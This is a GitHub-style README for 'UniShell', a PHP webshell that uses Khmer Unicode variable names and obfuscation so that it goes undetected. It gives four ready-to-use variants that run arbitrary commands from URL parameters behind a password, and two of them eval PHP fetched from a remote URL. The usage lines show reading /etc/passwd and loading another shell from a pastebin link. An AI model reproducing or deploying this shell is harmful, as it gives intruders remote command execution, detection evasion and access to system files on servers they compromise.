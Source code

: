 # UniShell
Unishell is a piece of php webshell script that based on nano shell (https://github.com/s0md3v/nano) which are using khmer unicode characters (ក, ខ, គ) and combinded with YAK Obfuscator to be undetectable and more powerful.

### None-Obfuscate
1. Soriya
```php
<?php $ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); ?>
```
**Note:** For the options `ល` is the password `ធិ៤០៤` which mean you can change the string with your own password.

### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command`

**For example**, we want to show the /etc/passwd in the system so we can use the options as below:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=cat /etc/passwd`

### Screenshot-1
![handler](https://i.imgur.com/YS1JMHE.png)

2. Kolab
```php
<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); eval('?>'.file_get_contents($ា[ដ]));?>
```
### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command; `ដ` for Url;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command&ដ=url`

***For example***, we want to use the PHP Web Shell from another source in the target system, so it will be:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=uname -a&ដ=https://pastebin.com/raw/JfLvh0MG`

### Screenshot-2

![handler](https://imgur.com/WCfChGe.png)

### Screenshot-3

![handler](https://imgur.com/HSb9rbd.png)

### Obfuscated
In this code below i used yak to obfuscated.

1. Raksmey-Soriya
```php
<?php goto JFDwF; NnbkH: $gOzsO[ល] == ធិ៤០៤ & $gOzsO[ម]($gOzsO[ប]); goto ymB7H; B3hLL: if (!($gOzsO[ត] != null)) { goto y8I95; } goto NnbkH; JFDwF: $gOzsO = $_GET; goto B3hLL; ymB7H: y8I95: ?>
```
2. Bonla-Kolab
```php
<?php goto N6Ag4; KMKUH: $I9NO2[ល] == ធិ៤០៤ & $I9NO2[ម]($I9NO2[ប]); goto cuHHG; N6Ag4: $I9NO2 = $_GET; goto clZU6; clZU6: if (!($I9NO2[ត] != null)) { goto P0yeE; } goto KMKUH; cuHHG: P0yeE: goto hYsr_; hYsr_: eval("\x3f\x3e" . file_get_contents($I9NO2[ដ])); ?>
```
### License
If you want to use or modify it, just give me or mr s0md3v a credit or some donation. xD
